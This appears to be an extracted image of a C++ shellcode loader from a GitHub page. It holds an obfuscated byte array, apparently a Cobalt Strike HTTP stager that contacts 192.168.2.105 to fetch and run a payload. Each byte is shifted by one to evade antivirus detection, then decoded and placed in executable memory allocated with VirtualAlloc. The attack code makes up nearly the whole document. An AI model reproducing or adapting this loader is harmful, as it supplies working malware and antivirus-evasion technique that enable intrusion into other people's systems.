 ```cpp
  unsigned char shiftedArray[] = "\xfd\x49\x84\xe5\xf1\xe9\xc9\x1\x1\x1\x42\x52\x42\x51\x53\x52\x57\x49\x32\xd3\x66\x49\x8c\x53\x61\x49\x8c\x53\x19\x49\x8c\x53\x21\x49\x8c\x73\x51\x49\x10\xb8\x4b\x4b\x4e\x32\xca\x49\x32\xc1\xad\x3d\x62\x7d\x3\x2d\x21\x42\xc2\xca\xe\x42\x2\xc2\xe3\xee\x53\x42\x52\x49\x8c\x53\x21\x8c\x43\x3d\x49\x2\xd1\x67\x82\x79\x19\xc\x3\x76\x73\x8c\x81\x89\x1\x1\x1\x49\x86\xc1\x75\x68\x49\x2\xd1\x51\x8c\x49\x19\x45\x8c\x41\x21\x4a\x2\xd1\xe4\x57\x49\x0\xca\x42\x8c\x35\x89\x49\x2\xd7\x4e\x32\xca\x49\x32\xc1\xad\x42\xc2\xca\xe\x42\x2\xc2\x39\xe1\x76\xf2\x4d\x4\x4d\x25\x9\x46\x3a\xd2\x76\xd9\x59\x45\x8c\x41\x25\x4a\x2\xd1\x67\x42\x8c\xd\x49\x45\x8c\x41\x1d\x4a\x2\xd1\x42\x8c\x5\x89\x49\x2\xd1\x42\x59\x42\x59\x5f\x5a\x5b\x42\x59\x42\x5a\x42\x5b\x49\x84\xed\x21\x42\x53\x0\xe1\x59\x42\x5a\x5b\x49\x8c\x13\xea\x50\x0\x0\x0\x5e\x6b\x1\x4a\xbf\x78\x6a\x6f\x6a\x6f\x66\x75\x1\x42\x57\x4a\x8a\xe7\x4d\x8a\xf2\x42\xbb\x4d\x78\x27\x8\x0\xd6\x49\x32\xca\x49\x32\xd3\x4e\x32\xc1\x4e\x32\xca\x42\x51\x42\x51\x42\xbb\x3b\x57\x7a\xa8\x0\xd6\xec\x74\x5b\x49\x8a\xc2\x42\xb9\x91\x20\x1\x1\x4e\x32\xca\x42\x52\x42\x52\x6b\x4\x42\x52\x42\xbb\x58\x8a\xa0\xc7\x0\xd6\xec\x5a\x5c\x49\x8a\xc2\x49\x32\xd3\x4a\x8a\xd9\x4e\x32\xca\x53\x69\x1\x3\x41\x85\x53\x53\x42\xbb\xec\x56\x2f\x3c\x0\xd6\x49\x8a\xc7\x49\x84\xc4\x51\x6b\xb\x60\x49\x8a\xf2\x49\x8a\xdb\x4a\xc8\xc1\x0\x0\x0\x0\x4e\x32\xca\x53\x53\x42\xbb\x2e\x7\x19\x7c\x0\xd6\x86\xc1\x10\x86\x9e\x2\x1\x1\x49\x0\xd0\x10\x85\x8d\x2\x1\x1\xec\xd4\xea\xe5\x2\x1\x1\xe9\xa3\x0\x0\x0\x30\x56\x6f\x72\x76\x66\x76\x66\x30\x77\x32\x31\x2f\x31\x36\x30\x5b\x31\x52\x5b\x3a\x5b\x59\x46\x59\x48\x46\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\x64\x64\x66\x71\x75\x3b\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x6b\x74\x70\x6f\x2d\x21\x75\x66\x79\x75\x30\x69\x75\x6e\x6d\x2d\x21\x62\x71\x71\x6d\x6a\x64\x62\x75\x6a\x70\x6f\x30\x79\x69\x75\x6e\x6d\x2c\x79\x6e\x6d\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x4d\x62\x6f\x68\x76\x62\x68\x66\x3b\x21\x74\x72\xe\xb\x42\x64\x64\x66\x71\x75\x2e\x46\x6f\x64\x70\x65\x6a\x6f\x68\x3b\x21\x68\x7b\x6a\x71\x2d\x21\x63\x73\xe\xb\x56\x74\x66\x73\x2e\x42\x68\x66\x6f\x75\x3b\x21\x4e\x70\x7b\x6a\x6d\x6d\x62\x30\x36\x2f\x31\x21\x29\x58\x6a\x6f\x65\x70\x78\x74\x21\x4f\x55\x21\x32\x31\x2f\x31\x3c\x21\x58\x6a\x6f\x37\x35\x3c\x21\x79\x37\x35\x2a\x21\x42\x71\x71\x6d\x66\x58\x66\x63\x4c\x6a\x75\x30\x36\x34\x38\x2f\x34\x37\x21\x29\x4c\x49\x55\x4e\x4d\x2d\x21\x6d\x6a\x6c\x66\x21\x48\x66\x64\x6c\x70\x2a\x21\x44\x69\x73\x70\x6e\x66\x30\x37\x33\x2f\x31\x2f\x34\x33\x31\x33\x2f\x3a\x35\x21\x54\x62\x67\x62\x73\x6a\x30\x36\x34\x38\x2f\x34\x37\xe\xb\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x1\x42\xbf\xf1\xb6\xa3\x57\x0\xd6\x49\x32\xca\xbb\x1\x1\x41\x1\x42\xb9\x1\x11\x1\x1\x42\xba\x41\x1\x1\x1\x42\xbb\x59\xa5\x54\xe6\x0\xd6\x49\x94\x54\x54\x49\x8a\xe8\x49\x8a\xf2\x49\x8a\xdb\x42\xb9\x1\x21\x1\x1\x4a\x8a\xfa\x42\xbb\x13\x97\x8a\xe3\x0\xd6\x49\x84\xc5\x21\x86\xc1\x75\xb7\x67\x8c\x8\x49\x2\xc4\x86\xc1\x76\xd8\x59\x59\x59\x49\x6\xa2\x4\x1\x1\x51\xc4\xe9\xa0\xfe\x0\x0\x32\x3a\x33\x2f\x32\x37\x39\x2f\x33\x2f\x32\x31\x36\x1\x1\x1\x1\x1\x1";
  
  // Storage for the new array after being shifted in memory
  unsigned char newArray[sizeof(shiftedArray)];

  // Iterate over each byte in the shifted array
  for(short i = 0; i < sizeof(shiftedArray); i++) {
    short current = shiftedArray[i];

    // Decrement by 1 or roll over to stay within eight bits
    if(current > 0) {
      current -= 1;
    } else {
      current = 255;
    }

    // Store reshifted values
    newArray[i] = current;
  }

  // For those unfamiliar with VirtualAlloc (like me five minutes ago), see
  // https://docs.microsoft.com/en-us/windows/win32/memory/reserving-and-committing-memory
  void *exec = VirtualAlloc(
    0,              // The next page to commit (this)
    sizeof newArray,      // Set the page size to the size of the CS array
    MEM_COMMIT,         // Push the next page
    PAGE_EXECUTE_READWRITE    // Allow execute, read, and write permissions
  );

  // The reshifted bytes can now be copied to exec for execution
```